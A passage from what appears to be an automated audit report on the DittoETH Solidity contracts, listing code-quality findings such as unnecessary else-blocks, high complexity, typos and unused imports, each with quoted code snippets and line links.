LibOrders.sol ([371](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L371), [371](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L371), [501](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L501), [505](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L505), [677](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L677), [805](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L805)):

```solidity
/// @audit put `0` on the left
371:         if (hintId == 0 || nextId == 0) {

/// @audit put `0` on the left
371:         if (hintId == 0 || nextId == 0) {

/// @audit put `0` on the left
501:         if (b.matchedAskId != 0) {

/// @audit put `0` on the left
505:         if (b.matchedShortId != 0) {

/// @audit put `0` on the left
677:         SR status = incomingShort.ercAmount == 0 ? SR.FullyFilled : SR.PartialFill;

/// @audit put `15 minutes` on the left
805:         if (timeDiff >= 15 minutes) {
```

LibSRUtil.sol ([131](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L131)):

```solidity
/// @audit put `0` on the left
131:         if (short.ercDebt == 0) revert Errors.OriginalShortRecordRedeemed();
```

UniswapOracleLibrary.sol ([52](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L52)):

```solidity
/// @audit put `0` on the left
52:         if (secondsAgo <= 0) revert Errors.InvalidTWAPSecondsAgo();
```

</details>

## [33] Libraries should be defined in separate files

<details>

The libraries below should be defined in separate files, so that it's easier for future projects to import them, and to avoid duplication later on if they need to be used elsewhere in the project.

UniswapOracleLibrary.sol ([21](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L21)):

```solidity
21: library OracleLibrary {
```

</details>

## [34] `else`-block not required

<details>

One level of nesting can be removed by not having an `else` block when the `if`-block always jumps at the end. For example:

```solidity
if (condition) {
    body1...
    return x;
} else {
    body2...
}
```
can be changed to:
```solidity
if (condition) {
    body1...
    return x;
}
body2...
```

There are 27 instances:

BidOrdersFacet.sol ([106-112](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L106-L112), [347-349](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L347-L349)):

```solidity
106:         if (incomingBid.price >= lowestSell.price && (lowestSell.orderType == O.LimitAsk || lowestSell.orderType == O.LimitShort)) {
107:             // @dev if match and match price is gt .5% to saved oracle in either direction, update startingShortId
108:             LibOrders.updateOracleAndStartingShortViaThreshold(asset, LibOracle.getPrice(asset), incomingBid, shortHintArray);
109:             b.shortHintId = b.shortId = Asset.startingShortId;
110:             b.oraclePrice = LibOracle.getPrice(asset);
111:             return bidMatchAlgo(asset, incomingBid, orderHintArray, b);
112:         } else {

347:             if (noAsks || shortPriceLessThanAskPrice) {
348:                 return lowestShort;
349:             } else {
```

BridgeRouterFacet.sol ([173-176](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L173-L176)):

```solidity
173:         if (dethTotalNew >= dethTotal) {
174:             // when yield is positive 1 deth = 1 eth
175:             return amount;
176:         } else {
```

RedemptionFacet.sol ([38-40](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L38-L40)):

```solidity
38:         if (shortRecord.status == SR.Closed || shortRecord.ercDebt < minShortErc || proposer == shorter) {
39:             return false;
40:         } else {
```

LibBridgeRouter.sol ([59-62](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L59-L62), [65-68](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L65-L68), [89-92](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L89-L92), [95-98](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L95-L98)):

```solidity
59:             if (creditSteth < C.ROUNDING_ZERO) {
60:                 // Valid withdraw when no STETH credits
61:                 return amount;
62:             } else {

65:                     if (creditSteth >= amount) {
66:                         VaultUser.bridgeCreditSteth -= amount;
67:                         return 0;
68:                     } else {

89:             if (creditReth < C.ROUNDING_ZERO) {
90:                 // Valid withdraw when no RETH credits
91:                 return amount;
92:             } else {

95:                     if (creditReth >= amount) {
96:                         VaultUser.bridgeCreditReth -= amount;
97:                         return 0;
98:                     } else {
```

LibOracle.sol ([28-33](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L28-L33), [48-50](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L48-L50), [83-85](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L83-L85), [98-100](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L98-L100), [169-171](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L169-L171)):

```solidity
28:             if (oracle == baseOracle) {
29:                 // @dev multiply base oracle by 10**10 to give it 18 decimals of precision
30:                 uint256 basePriceInEth = basePrice > 0 ? uint256(basePrice * C.BASE_ORACLE_DECIMALS).inv() : 0;
31:                 basePriceInEth = baseOracleCircuitBreaker(protocolPrice, baseRoundID, basePrice, baseTimeStamp, basePriceInEth);
32:                 return basePriceInEth;
33:             } else {

48:             if (oracle == baseOracle) {
49:                 return twapCircuitBreaker();
50:             } else {

83:         if (invalidFetchData) {
84:             return twapCircuitBreaker();
85:         } else if (priceDeviation) {

98:                 if (chainlinkDiff <= twapDiff) {
99:                     return chainlinkPriceInEth;
100:                 } else {

169:         if (LibOrders.getOffsetTime() - getTime(asset) < 15 minutes) {
170:             return getPrice(asset);
171:         } else {
```

LibOrders.sol ([241-243](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L241-L243), [243-245](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L243-L245), [272-274](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L272-L274), [274-276](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L274-L276), [381-383](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L381-L383), [383-385](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L383-L385), [412-414](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L412-L414), [421-423](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L421-L423), [423-425](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L423-L425), [765-768](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L765-L768), [768-772](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L768-L772), [836-838](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L836-L838), [838-840](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L838-L840)):

```solidity
241:         if (check1 && check2) {
242:             return C.EXACT;
243:         } else if (!check1) {

243:         } else if (!check1) {
244:             return C.PREV;
245:         } else if (!check2) {

272:         if (check1 && check2) {
273:             return C.EXACT;
274:         } else if (!check1) {

274:         } else if (!check1) {
275:             return C.PREV;
276:         } else if (!check2) {

381:         if (direction == C.EXACT) {
382:             return hintId;
383:         } else if (direction == C.NEXT) {

383:         } else if (direction == C.NEXT) {
384:             return getOrderId(orders, asset, C.NEXT, nextId, incomingOrder.price, incomingOrder.orderType);
385:         } else {

412:         if (orderType == O.LimitAsk || orderType == O.LimitShort) {
413:             return verifySellId(orders, asset, prevId, newPrice, nextId);
414:         } else if (orderType == O.LimitBid) {

421:         if (o == O.LimitBid || o == O.MarketBid) {
422:             return O.LimitBid;
423:         } else if (o == O.LimitAsk || o == O.MarketAsk) {

423:         } else if (o == O.LimitAsk || o == O.MarketAsk) {
424:             return O.LimitAsk;
425:         } else if (o == O.LimitShort) {

765:                 if (isExactStartingShort) {
766:                     Asset.startingShortId = shortHintId;
767:                     return;
768:                 } else if (startingShortWithinOracleRange) {

768:                 } else if (startingShortWithinOracleRange) {
769:                     // @dev prevShortPrice >= oraclePrice
770:                     Asset.startingShortId = prevId;
771:                     return;
772:                 } else if (allShortUnderOraclePrice) {

836:             if (hintOrderType == O.Cancelled || hintOrderType == O.Matched) {
837:                 continue;
838:             } else if (order.creationTime == orderHint.creationTime) {

838:             } else if (order.creationTime == orderHint.creationTime) {
839:                 return orderHint.hintId;
840:             } else if (!anyOrderHintPrevMatched && order.prevOrderType == O.Matched) {
```

LibSRUtil.sol ([59-64](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L59-L64)):

```solidity
59:             if (shorter == msg.sender) {
60:                 // If call comes from exitShort() or combineShorts() then always cancel
61:                 LibOrders.cancelShort(asset, shortOrderId);
62:                 assert(shortRecord.status != SR.PartialFill);
63:                 return true;
64:             } else if (shortRecord.ercDebt < LibAsset.minShortErc(asset)) {
```

</details>

## [35] High cyclomatic complexity

<details>

Consider breaking down these blocks into more manageable units, by splitting things into utility functions, by reducing nesting, and by using early returns.

There are 2 instances:

ExitShortFacet.sol ([142-211](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L142-L211)):

```solidity
142:     function exitShort(
143:         address asset,
144:         uint8 id,
145:         uint88 buybackAmount,
146:         uint80 price,
147:         uint16[] memory shortHintArray,
148:         uint16 shortOrderId
149:     ) external isNotFrozen(asset) nonReentrant onlyValidShortRecord(asset, msg.sender, id) {
150:         MTypes.ExitShort memory e;
151:         e.asset = asset;
152:         LibOrders.updateOracleAndStartingShortViaTimeBidOnly(e.asset, shortHintArray);
153: 
154:         STypes.Asset storage Asset = s.asset[e.asset];
155:         STypes.ShortRecord storage short = s.shortRecords[e.asset][msg.sender][id];
156: 
157:         // @dev Must prevent forcedBid from exitShort() matching with original shortOrder
158:         e.shortOrderIsCancelled = LibSRUtil.checkCancelShortOrder({
159:             asset: asset,
160:             initialStatus: short.status,
161:             shortOrderId: shortOrderId,
162:             shortRecordId: id,
163:             shorter: msg.sender
164:         });
165: 
166:         short.updateErcDebt(e.asset);
...... OMITTED ......
187:             IDiamond(payable(address(this))).createForcedBid(msg.sender, e.asset, price, e.buybackAmount, shortHintArray);
188:         if (e.ethFilled == 0) revert Errors.ExitShortPriceTooLow();
189:         e.ercFilled = e.buybackAmount - e.ercAmountLeft;
190:         Asset.ercDebt -= e.ercFilled;
191:         s.assetUser[e.asset][msg.sender].ercEscrowed -= e.ercFilled;
192: 
193:         // Refund the rest of the collateral if ercDebt is fully paid back
194:         if (e.ercDebt == e.ercFilled) {
195:             // Full Exit
196:             LibSRUtil.disburseCollateral(e.asset, msg.sender, e.collateral, short.dethYieldRate, short.updatedAt);
197:             LibShortRecord.deleteShortRecord(e.asset, msg.sender, id); // prevent reentrancy
198:         } else {
199:             short.collateral -= e.ethFilled;
200:             short.ercDebt -= e.ercFilled;
201:             if (short.ercDebt < LibAsset.minShortErc(asset)) revert Errors.CannotLeaveDustAmount();
202: 
203:             // @dev Only allow partial exit if the CR is same or better than before
204:             if (getCollateralRatioNonPrice(short) < e.beforeExitCR) revert Errors.PostExitCRLtPreExitCR();
205: 
206:             // @dev collateral already subtracted in exitShort()
207:             VaultUser.ethEscrowed -= e.collateral - e.ethFilled;
208:             LibSRUtil.disburseCollateral(e.asset, msg.sender, e.ethFilled, short.dethYieldRate, short.updatedAt);
209:         }
210:         emit Events.ExitShort(asset, msg.sender, id, e.ercFilled);
211:     }
```

ShortOrdersFacet.sol ([35-90](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L35-L90)):

```solidity
35:     function createLimitShort(
36:         address asset,
37:         uint80 price,
38:         uint88 ercAmount,
39:         MTypes.OrderHint[] memory orderHintArray,
40:         uint16[] memory shortHintArray,
41:         uint16 shortOrderCR
42:     ) external isNotFrozen(asset) onlyValidAsset(asset) nonReentrant {
43:         MTypes.CreateLimitShortParam memory p;
44:         STypes.Asset storage Asset = s.asset[asset];
45:         STypes.Order memory incomingShort;
46: 
47:         // @dev create "empty" SR. Fail early.
48:         incomingShort.shortRecordId = LibShortRecord.createShortRecord(asset, msg.sender, SR.Closed, 0, 0, 0, 0, 0);
49: 
50:         uint256 cr = LibOrders.convertCR(shortOrderCR);
51:         if ((shortOrderCR + C.BID_CR) < Asset.initialCR || cr >= C.CRATIO_MAX_INITIAL) {
52:             revert Errors.InvalidCR();
53:         }
54: 
55:         // @dev minShortErc needs to be modified (bigger) when cr < 1
56:         p.minShortErc = cr < 1 ether ? LibAsset.minShortErc(asset).mul(1 ether + cr.inv()) : LibAsset.minShortErc(asset);
57:         p.eth = price.mul(ercAmount);
58:         p.minAskEth = LibAsset.minAskEth(asset);
59:         if (ercAmount < p.minShortErc || p.eth < p.minAskEth) revert Errors.OrderUnderMinimumSize();
...... OMITTED ......
66:         incomingShort.ercAmount = ercAmount;
67:         incomingShort.id = Asset.orderIdCounter;
68:         incomingShort.orderType = O.LimitShort;
69:         incomingShort.creationTime = LibOrders.getOffsetTime();
70:         incomingShort.shortOrderCR = shortOrderCR; // 170 -> 1.70x
71: 
72:         p.startingId = s.bids[asset][C.HEAD].nextId;
73:         STypes.Order storage highestBid = s.bids[asset][p.startingId];
74:         // @dev if match and match price is gt .5% to saved oracle in either direction, update startingShortId
75:         if (highestBid.price >= incomingShort.price && highestBid.orderType == O.LimitBid) {
76:             LibOrders.updateOracleAndStartingShortViaThreshold(asset, LibOracle.getPrice(asset), incomingShort, shortHintArray);
77:         }
78: 
79:         p.oraclePrice = LibOracle.getSavedOrSpotOraclePrice(asset);
80:         if (LibSRUtil.checkRecoveryModeViolation(asset, cr, p.oraclePrice)) {
81:             revert Errors.BelowRecoveryModeCR();
82:         }
83: 
84:         // @dev reading spot oracle price
85:         if (incomingShort.price < p.oraclePrice) {
86:             LibOrders.addShort(asset, incomingShort, orderHintArray);
87:         } else {
88:             LibOrders.sellMatchAlgo(asset, incomingShort, orderHintArray, p.minAskEth);
89:         }
90:     }
```

</details>

## [36] Typos

<details>

All typos should be corrected.

RedemptionFacet.sol ([393](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L393)):

```solidity
/// @audit formula
393:         // @dev Derived via this formula: baseRateNew = baseRateOld + redeemedLUSD / (2 * totalLUSD)
```

LibBytes.sol ([19](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBytes.sol#L19)):

```solidity
/// @audit multiply
19:             // 32 offset for array length, multiply by each ProposalData
```

</details>

## [37] Consider bounding input array length

<details>

The functions below take in an unbounded array, and make function calls for entries in the array. While the function will revert if it eventually runs out of gas, it may be a nicer user experience to `require()` that the length of the array is below some reasonable maximum, so that the user doesn't have to use up a full transaction's gas only to see that the transaction reverts.

BidOrdersFacet.sol ([139](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L139)):

```solidity
139:         while (true) {
```

RedemptionFacet.sol ([78](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L78)):

```solidity
78:         for (uint8 i = 0; i < proposalInput.length; i++) {
```

</details>

## [38] Unnecessary casting

<details>

Unnecessary castings can be removed.

RedemptionFacet.sol ([197-197](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L197-L197)):

```solidity
/// @audit uint256(C.ONE_THIRD.div(0.1 ether))
197:             m = uint256(C.ONE_THIRD.div(0.1 ether));
```

</details>

## [39] Unused contract variables

<details>

The following state variables are defined but not used. It is recommended to check the code for logical omissions that cause them not to be used. If it's determined that they are not needed anywhere, it's best to remove them from the codebase to improve code clarity and minimize confusion.

ExitShortFacet.sol ([26-26](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L26-L26)):

```solidity
26:     address private immutable dusd;
```

PrimaryLiquidationFacet.sol ([28-28](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L28-L28)):

```solidity
28:     address private immutable dusd;
```

</details>

## [40] Unused import

<details>

The identifier is imported but never used within the file.

There are 60 instances: 

BidOrdersFacet.sol ([4-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L4-L4), [8-8](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L8-L8), [11-11](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L11-L11)):

```solidity
/// @audit U256
/// @audit U88
/// @audit U80
4: import {U256, U88, U80} from "contracts/libraries/PRBMathHelper.sol";

/// @audit Modifiers
8: import {Modifiers} from "contracts/libraries/AppStorage.sol";

/// @audit STypes
/// @audit MTypes
11: import {STypes, MTypes, O, SR} from "contracts/libraries/DataTypes.sol";
```

BridgeRouterFacet.sol ([4-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L4-L4), [8-8](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L8-L8), [11-11](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L11-L11), [13-13](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L13-L13)):

```solidity
/// @audit U256
/// @audit U88
4: import {U256, U88} from "contracts/libraries/PRBMathHelper.sol";

/// @audit Modifiers
8: import {Modifiers} from "contracts/libraries/AppStorage.sol";

/// @audit LibBridge
11: import {LibBridge} from "contracts/libraries/LibBridge.sol";

/// @audit LibVault
13: import {LibVault} from "contracts/libraries/LibVault.sol";
```

ExitShortFacet.sol ([4-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L4-L4), [8-8](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L8-L8), [11-11](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L11-L11)):

```solidity
/// @audit U256
/// @audit U80
/// @audit U88
4: import {U256, U80, U88} from "contracts/libraries/PRBMathHelper.sol";

/// @audit Modifiers
8: import {Modifiers} from "contracts/libraries/AppStorage.sol";

/// @audit STypes
/// @audit MTypes
/// @audit SR
11: import {STypes, MTypes, SR} from "contracts/libraries/DataTypes.sol";
```

PrimaryLiquidationFacet.sol ([4-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L4-L4), [10-10](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L10-L10), [11-11](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L11-L11)):

```solidity
/// @audit U256
/// @audit U96
/// @audit U88
/// @audit U80
4: import {U256, U96, U88, U80} from "contracts/libraries/PRBMathHelper.sol";

/// @audit STypes
/// @audit MTypes
10: import {STypes, MTypes, SR} from "contracts/libraries/DataTypes.sol";

/// @audit Modifiers
11: import {Modifiers} from "contracts/libraries/AppStorage.sol";
```

RedemptionFacet.sol ([4-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L4-L4), [8-8](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L8-L8), [9-9](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L9-L9), [19-19](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L19-L19)):

```solidity
/// @audit U256
/// @audit U104
/// @audit U88
/// @audit U80
/// @audit U64
/// @audit U32
4: import {U256, U104, U88, U80, U64, U32} from "contracts/libraries/PRBMathHelper.sol";

/// @audit Modifiers
8: import {Modifiers} from "contracts/libraries/AppStorage.sol";

/// @audit STypes
/// @audit MTypes
9: import {STypes, MTypes, SR} from "contracts/libraries/DataTypes.sol";

/// @audit console
19: import {console} from "contracts/libraries/console.sol";
```

ShortOrdersFacet.sol ([4-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L4-L4), [7-7](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L7-L7), [8-8](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L8-L8)):

```solidity
/// @audit U256
/// @audit U88
/// @audit U80
4: import {U256, U88, U80} from "contracts/libraries/PRBMathHelper.sol";

/// @audit STypes
/// @audit MTypes
7: import {STypes, MTypes, O, SR} from "contracts/libraries/DataTypes.sol";

/// @audit Modifiers
8: import {Modifiers} from "contracts/libraries/AppStorage.sol";
```

LibBridgeRouter.sol ([6-6](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L6-L6), [7-7](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L7-L7), [12-12](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L12-L12)):

```solidity
/// @audit STypes
6: import {STypes} from "contracts/libraries/DataTypes.sol";

/// @audit AppStorage
7: import {AppStorage, appStorage} from "contracts/libraries/AppStorage.sol";

/// @audit U256
/// @audit U88
12: import {U256, U88} from "contracts/libraries/PRBMathHelper.sol";
```

LibOracle.sol ([4-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L4-L4), [9-9](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L9-L9)):

```solidity
/// @audit U256
4: import {U256} from "contracts/libraries/PRBMathHelper.sol";

/// @audit AppStorage
9: import {AppStorage, appStorage} from "contracts/libraries/AppStorage.sol";
```

LibOrders.sol ([4-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L4-L4), [8-8](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L8-L8), [9-9](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L9-L9), [15-15](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L15-L15)):

```solidity
/// @audit U256
/// @audit U104
/// @audit U80
/// @audit U88
/// @audit U16
4: import {U256, U104, U80, U88, U16} from "contracts/libraries/PRBMathHelper.sol";

/// @audit AppStorage
8: import {AppStorage, appStorage} from "contracts/libraries/AppStorage.sol";

/// @audit STypes
/// @audit MTypes
9: import {STypes, MTypes, O, SR} from "contracts/libraries/DataTypes.sol";

/// @audit LibVault
15: import {LibVault} from "contracts/libraries/LibVault.sol";
```

LibSRUtil.sol ([4-4](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L4-L4), [6-6](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L6-L6), [7-7](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L7-L7)):

```solidity
/// @audit U88
/// @audit U256
4: import {U88, U256} from "contracts/libraries/PRBMathHelper.sol";

/// @audit STypes
6: import {STypes, SR} from "contracts/libraries/DataTypes.sol";

/// @audit AppStorage
7: import {AppStorage, appStorage} from "contracts/libraries/AppStorage.sol";
```

</details>

## [41] Unused local variables

<details>

The following local variables are not used. It is recommended to check the code for logical omissions that cause them not to be used. If it's determined that they are not needed anywhere, it's best to remove them from the codebase to improve code clarity and minimize confusion.

LibOracle.sol ([27-27](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L27-L27)):

```solidity
27:         try baseOracle.latestRoundData() returns (uint80 baseRoundID, int256 basePrice, uint256, uint256 baseTimeStamp, uint80) {
```

</details>

## [42] Unused named return

<details>

Declaring named returns, but not using them, is confusing to the reader. Consider either completely removing them (by declaring just the type without a name), or remove the return statement and do a variable assignment. This would improve the readability of the code, and it may also help reduce regressions during future code refactors.

There are 27 instances:

